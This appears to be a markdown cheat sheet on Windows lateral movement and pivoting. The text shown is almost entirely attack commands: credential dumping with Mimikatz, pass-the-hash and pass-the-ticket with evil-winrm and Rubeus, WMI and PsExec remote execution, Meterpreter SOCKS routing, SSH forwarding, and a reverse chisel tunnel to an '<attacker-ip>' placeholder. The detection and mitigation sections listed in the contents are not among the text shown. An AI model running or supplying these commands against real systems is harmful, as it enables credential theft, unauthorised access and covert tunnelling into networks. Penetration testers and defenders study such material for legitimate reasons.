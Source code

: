   
## 📚 Table of Contents

  

1. [Introduction](#introduction)
2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)
    - [Using Credential Dumping](#using-credential-dumping)
    - [Pass-the-Hash](#pass-the-hash)
    - [Pass-the-Ticket](#pass-the-ticket)
    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)
    - [WMI & WinRM Execution](#wmi--winrm-execution)
    - [PsExec & SMB](#psexec--smb)
3. [Pivoting Through Compromised Hosts](#pivoting-through-compromised-hosts)
    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)
    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)
    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)
4. [Detecting Lateral Movement](#detecting-lateral-movement)
5. [Mitigations & Best Practices](#mitigations--best-practices)
6. [Conclusion](#conclusion)

  ---

## Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```
mimikatz.exe
```

```
sekurlsa::logonpasswords
```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH
```

```
Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```
mimikatz # kerberos::ptt ticket.kirbi
```
  
### WMI & WinRM Execution

```
Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

```
evil-winrm -i 10.10.10.10 -u user -p password
```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16
```

```
meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```
